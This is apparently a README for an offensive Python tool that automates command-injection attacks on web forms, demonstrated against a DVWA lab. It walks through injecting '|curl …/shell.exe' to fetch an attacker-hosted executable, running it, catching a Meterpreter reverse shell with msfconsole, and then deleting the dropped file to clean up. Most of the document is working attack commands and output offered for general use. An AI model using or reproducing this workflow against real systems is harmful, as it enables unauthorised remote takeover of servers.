# Command Injection Tool

This tool can be utilised when attacker has found a field with command injection possible.  It will automate the process and will provide you with a meterpreter shell.

- You'll need a **webserver** running at **port 80** in same directory as script. (tool will prompt you).
- You'll need **msfvenom** and **msfconsole** installed.

### Usage

```
./command_injection.py -u http://192.168.0.104/dvwa/vulnerabilities/exec/ -c "PHPSESSID:ggc66turb492nrus71o8u34a20;security:high;" -t "ip" -p "Submit:Submit;" -m post --LHOST 192.168.0.111 --LPORT 4444


usage: command_inejction.py [-h] [-p PARAM] [-t TARGET] [-u URL] [-c COOKIES]
                            [-m METHOD] [-lh LHOST] [-lp LPORT]

optional arguments:
  -h, --help            show this help message and exit
  -p PARAM, --param PARAM
                        Param: -p Submit:Submit;Login:Login;
  -t TARGET, --target TARGET
                        Target Param: -t ip
  -u URL, --url URL     URL: -u http://127.0.0.1/
  -c COOKIES, --cookies COOKIES
                        Cookies: -c PHPSESSID:f8ucrbu0qmta4ettc3208gcvnq&
                        security:low
  -m METHOD, --method METHOD
                        Method: -m get OR -m POST
  -lh LHOST, --LHOST LHOST
                        LHOST: -lh 192.168.0.112
  -lp LPORT, --LPORT LPORT
                        LPORT: -lp 8080
```

### Step 1
- Run the program.
```
./command_injection.py -u http://192.168.0.104/dvwa/vulnerabilities/exec/ -c "PHPSESSID:ggc66turb492nrus71o8u34a20;security:high;" -t "ip" -p "Submit:Submit;" -m post --LHOST 192.168.0.111 --LPORT 4444
```
- Output
```
[+] You'll need to host a web server at 192.168.0.111:4444 at path /home/baba/GitHub/hunting-automated/command_injection.
[...] sudo python3 -m http.server 80
[*] Hit enter once done... 
```
### Step 2
- Start a web server in same directory as command_injection.py.
```
sudo python3 -m http.server 80
```
- Hit Enter

```
[*]URL : http://192.168.0.104/dvwa/vulnerabilities/exec/
[*]Cookies {'PHPSESSID': 'ggc66turb492nrus71o8u34a20', 'security': 'high'}
[*]Param: Submit:Submit;ip
[*]Payload: |curl 192.168.0.111/shell.exe -o shell.exe
[+] You'll need to start a handler at LHOST:192.168.0.111, LPORT:4444 in msfconsole. 
        Set Payload to windows/meterpreter/reverse_tcp. Set RHOST to 
[*] Hit enter once done... 
```
### Step 3
- Start metasplpoit and multi/handler.
```
msfconsole

msf6 > use multi/handler  
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp  
payload => windows/meterpreter/reverse_tcp  
msf6 exploit(multi/handler) > set LHOST 192.168.0.111
LHOST => 192.168.0.111

msf6 exploit(multi/handler) > run  
  
[*] Started reverse TCP handler on 192.168.0.111:4444

```
- Hit Enter
```
[*]URL : http://192.168.0.104/dvwa/vulnerabilities/exec/
[*]Cookies {'PHPSESSID': 'ggc66turb492nrus71o8u34a20', 'security': 'high'}
[*]Param: Submit:Submit;ip
[*]Payload: |shell.exe
```
- We have shell
```
[*] Sending stage (175174 bytes) to 192.168.0.104  
[*] Meterpreter session 1 opened (192.168.0.111:4444 -> 192.168.0.104:50322) at 2021-01-18 20:04:17 +0530  
  
meterpreter > 
```

- Finally, when you exit or close the session. It will remove all the files created for it to work.

```
[-] Cleaning up...
[*]URL : http://192.168.0.104/dvwa/vulnerabilities/exec/
[*]Cookies {'PHPSESSID': 'ggc66turb492nrus71o8u34a20', 'security': 'high'}
[*]Param: Submit:Submit;ip
[*]Payload: |del shell.exe

```
